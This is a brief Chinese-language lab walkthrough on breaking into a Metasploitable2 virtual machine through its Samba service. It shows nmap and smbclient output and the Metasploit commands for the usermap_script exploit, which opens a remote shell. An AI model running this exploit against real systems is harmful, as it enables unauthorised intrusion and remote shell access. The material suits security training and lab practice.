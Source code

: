 ## 利用samba服务漏洞入侵linux主机

Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成,samba服务对应的端口有139、445.

0、使用`nmap -v -A`扫描
[root@kali: ~#] nmap -v -A metasploitable2 
139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)

Host script results:
| nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   METASPLOITABLE<00>   Flags: <unique><active>
|   METASPLOITABLE<03>   Flags: <unique><active>
|   METASPLOITABLE<20>   Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP
|_  System time: 2015-04-01T14:55:13-04:00

[root@kali: ~#] smbclient //metasploitable2/tmp
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian]

1、网上搜索samba，得到利用metasploit的exploit
exploit/multi/samba/usermap_script

2、进入msfconsole
```bash 
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > set RHOST metasploitable2
msf exploit(usermap_script) > exploit
#直接进入shell了

```